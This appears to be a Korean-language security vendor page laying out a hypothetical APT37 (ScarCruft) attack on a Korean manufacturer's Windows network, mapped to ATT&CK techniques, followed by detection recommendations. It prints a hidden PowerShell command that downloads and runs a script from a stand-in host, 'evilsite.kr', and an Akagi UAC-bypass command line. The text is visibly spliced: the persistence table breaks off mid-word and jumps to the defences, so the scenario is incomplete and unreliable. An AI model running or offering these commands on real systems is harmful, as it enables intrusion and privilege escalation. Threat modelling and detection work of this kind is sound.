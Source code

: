 # APT37(ScarCruft) — 가상의 Windows 침투 시나리오

## 가정 환경

* **대상**: 한국 소재 제조업 본사 네트워크 (Windows 10/11 클라이언트)
* **모니터링**: 기본 이벤트 로그 + Sysmon v13 구성
* **보안 설정**: UAC 기본값 유지 (EnableLUA = 1)
* **목표**: R\&D 설계 도면 탈취 후 내부 중요 PC 파괴

---

## 1️⃣ 초기 침투 (Initial Access / Execution)

| 순서  | TID                                   | 행위                          | 사용 명령·기술                |
| --- | ------------------------------------- | --------------------------- | ----------------------- |
| 1-1 | T1566.001 – Spear Phishing Attachment | 팀장에게 악성 한글(HWP) 문서 첨부 메일 발송 | 악성 HWP 파일 전송            |
| 1-2 | T1204.002 – User Execution            | 사용자가 문서 열람, 매크로 실행          | HWP 매크로 내 PowerShell 호출 |
| 1-3 | T1105 – Ingress Tool Transfer         | 최종 백도어(Dolphin) 다운로드 및 실행   | PowerShell IEX 다운로드     |

```powershell
powershell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://cdn.evilsite.kr/dropper.ps1')"
```

---

## 2️⃣ 권한 상승·지속화 (Privilege Escalation / Persistence)

| 순서  | TID                                     | 행위                         | 사용 명령·기술                                       |
| --- | --------------------------------------- | -------------------------- | ---------------------------------------------- |
| 2-1 | T1548.002 – Bypass User Account Control | UAC 우회 (Akagi + fodhelper) | `.\Akagi64.exe 30 C:\Windows\System32\cmd.exe` |
| 2-2 | T1547.001 – Registry Run Keys           | Run 키 등록으로 료

* 의심스러운 HWP/LNK 첨부 파일 차단 및 정밀 검사
* PowerShell IEX 및 Base64 인코딩 탐지 정책 강화
* Sysmon + PLURA-XDR 기반의 로그 상관 분석
* PLURA-EDR 통한 Akagi 실행·UAC 우회 패턴 탐지
* LNK 및 예약 작업 생성 탐지 정책 설정 필수

👉 [자세히](plura_waf_xdr_detection.md)

---

